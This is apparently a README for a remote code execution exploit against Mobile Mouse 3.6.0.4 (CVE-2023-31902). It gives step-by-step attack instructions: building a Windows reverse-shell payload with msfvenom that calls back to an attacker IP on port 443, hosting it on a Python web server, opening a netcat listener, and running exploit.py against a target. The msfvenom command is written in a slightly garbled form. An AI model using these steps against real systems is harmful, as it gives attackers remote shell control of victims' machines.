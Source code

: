 #Mobile-Mouse-3.6.0.4-RCE Remote Code Execution Exploit for Mobile Mouse 3.6.0.4

CVE-2023-31902

The only thing you need to alter if the payload doesn't function is the download payload method (if the file already exists, it might not upload the second time).

1. Make a reverse.exe by using the command "msfvenom -p windows/x64/shell_reverse_tcp." LPORT=443, LHOST=192.168.45.160, exe -f, reverse.exe

2. use python3 -m http.server 8080 to launch the Python server at port 8080.

3. rlwrap nc -nvlp 443 --> start listener at 443

4. Launch the exploit.py file by typing python3 exploit.py --target $IP --lhost $IP --file reverse.exe.

5. Give it some time; it takes two to five minutes.


